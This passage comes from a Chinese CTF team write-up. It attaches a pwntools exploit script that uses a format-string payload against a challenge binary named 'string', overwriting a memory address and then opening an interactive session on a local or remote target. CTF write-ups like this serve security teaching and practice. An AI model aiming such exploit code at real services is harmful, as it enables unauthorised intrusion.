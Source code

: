 利用结果如下：

![image-20201121170552087](images/水电厂划水爱好者战队WriteUp/image-20201121170552087.png)

附攻击脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2020/11/21 9:15
# @Author  : ouzy
# @File    : string.py

from pwn import *
binary_file = './string'                # 文件名
context.binary = binary_file

# switches

if len(sys.argv) == 1:
    DEBUG = 1
else:
    DEBUG = 0
# modify this
if DEBUG:
    io = process([binary_file])
else:
    io = remote(sys.argv[1], int(sys.argv[2]))

context(log_level='debug')

# define symbols and offsets here

offset = 12
vuln = 0x0804A048               # main
val = 35795746


# define exploit function here
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
    raw_input()

    payload = fmtstr_payload(offset, {vuln: val})
    io.sendline(payload)
    io.interactive()
    return


if __name__ == '__main__':
    pwn()

```

